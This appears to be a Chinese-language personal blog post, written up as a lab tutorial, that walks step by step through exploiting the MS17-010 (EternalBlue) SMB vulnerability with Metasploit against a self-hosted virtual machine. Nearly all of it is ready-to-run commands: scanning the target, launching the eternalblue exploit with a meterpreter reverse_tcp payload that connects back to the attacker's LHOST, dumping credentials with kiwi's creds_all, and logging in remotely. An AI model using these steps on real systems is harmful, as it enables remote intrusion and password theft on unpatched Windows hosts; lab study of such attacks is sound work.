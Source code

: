 ```yaml
---
layout: post
title: MS17-010漏洞测试
categories: Security
description: MS17-010漏洞测试
keywords: MS17-010
---
```


> 2017年写的文档了，最近都会整理出来放在blog存着。

## 0x00 说明

> 本文仅作为技术学习研究使用，所涉及服务器均为自己搭建虚拟机。
## 0x01 启动Metasploit Framework

```shell
root@kali:~# msfconsole -q	#-q 安静模式
```
![](http://cdn.mingsec.com/ms17010-1.jpg)

![](http://cdn.mingsec.com/ms17010-2.jpg)

## 0x02 查找所需模块，本次使用ms17010漏洞模块
```shell
msf > search ms17010
```
![](http://cdn.mingsec.com/ms17010-3.jpg)
- auxiliary/scanner/smb/smb_ms17_010 为探测模块
- exploit/windows/smb/ms17_010_eternalblue 为利用模块
> 当然现在模块更多了，需要的大佬自己去看。
## 0x03 利用探测模块确认漏洞是否存在
```shell
msf > use auxiliary/scanner/smb/smb_ms17_010
msf auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.0.106
msf auxiliary(scanner/smb/smb_ms17_010) > run
```
![](http://cdn.mingsec.com/ms17010-4.jpg)
结果显示存在漏洞
## 0x04 使用exp挂载payload进行利用
配置exp及payload
```shell
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.0.106
msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.16.79.72
msf exploit(windows/smb/ms17_010_eternalblue) > exploit
```
![](http://cdn.mingsec.com/ms17010-6.jpg)
![](http://cdn.mingsec.com/ms17010-7.jpg)
## 0x05 执行成功，获取shell
![](http://cdn.mingsec.com/ms17010-c.jpg)
## 0x06 利用kiwi模块获取密码
```shell
meterpreter > load kiwi
meterpreter > creds_all
```
成功读取密码。
![](http://cdn.mingsec.com/ms17010-c.jpg)
![](http://cdn.mingsec.com/ms17010-c.jpg)
## 0x07 远程登陆成功
利用密码远程登陆服务器成功。
![](http://cdn.mingsec.com/ms17010-c.jpg)